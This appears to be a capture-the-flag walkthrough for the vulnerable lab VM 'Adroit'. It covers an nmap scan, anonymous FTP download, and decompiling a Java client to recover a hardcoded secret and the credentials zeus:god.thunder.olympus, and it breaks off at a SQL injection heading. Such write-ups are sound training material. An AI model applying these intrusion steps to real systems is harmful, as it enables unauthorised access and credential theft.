 Adroit - walkthrough by alienum

## In order to complete the vm you need the following tools

1. sudo apt-get install openjdk-11-jdk
2. sudo apt-get install jd-gui
3. eclipse IDE Java Developer (search instructions how to download it)

## port scan

nmap x.x.x.x
21/tcp   open  ftp
22/tcp   open  ssh
3000/tcp open  ppp
3306/tcp open  mysql

## ftp 

ftp x.x.x.x
Name: anonymous
ftp> cd pub
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          5451 Jan 14 14:33 adroitclient.jar
-rw-r--r--    1 ftp      ftp           203 Jan 14 16:20 note.txt
-rw-r--r--    1 ftp      ftp         36430 Jan 14 16:15 structure.PNG
ftp> mget *

## reading the structure.PNG

We are able to collect important information from the image
the vm running mysql and the database name is adroit

## jd-gui, reading the adroitclient.jar

1. From AdroitClient.class we have got the secret, the credentials and the hostname

1.1. private static final String secret = "Sup3rS3cur3Dr0it";
1.2. socket = new Socket("adroit.local", 3000);
1.3  if (userName.equals(crypt.encrypt("Sup3rS3cur3Dr0it", "zeus")) && 
        password.equals(crypt.encrypt("Sup3rS3cur3Dr0it", "god.thunder.olympus")))
		
## edit /etc/hosts

x.x.x.x     adroit.local

## Login using zeus:god.thunder.olympus
## MySQL sql injection finding tables inside the 
